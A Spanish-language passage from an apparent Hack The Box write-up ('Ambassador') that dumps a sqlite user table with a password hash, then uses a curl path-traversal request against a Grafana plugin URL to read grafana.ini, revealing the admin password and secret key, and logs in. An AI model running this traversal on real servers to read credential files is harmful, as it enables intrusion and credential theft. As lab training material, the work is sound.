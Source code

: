 Me quedo con los campos de usuario y contraseña

```null
sqlite> select * from user;
1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2022-09-14 16:44:19|0
```

Podría intentar de romper el hash para encontrar la contraseña en texto claro, pero como está formado, tiene pinta de que le tengo que pasar salts y otros valores al hashcat y sería dificil de obtener.

En el archivo de configuración de Grafana, hay un token secreto y la contraseña del usuario administrador

```null
curl 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../etc/grafana/grafana.ini' --path-as-is

...
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427

# used for signing
;secret_key = SW2YcwTIb9zpOOhoPsMm

...
```

Me puedo loggear en la web

<img src="/writeups/assets/img/Ambassador-htb/4.png" alt="">
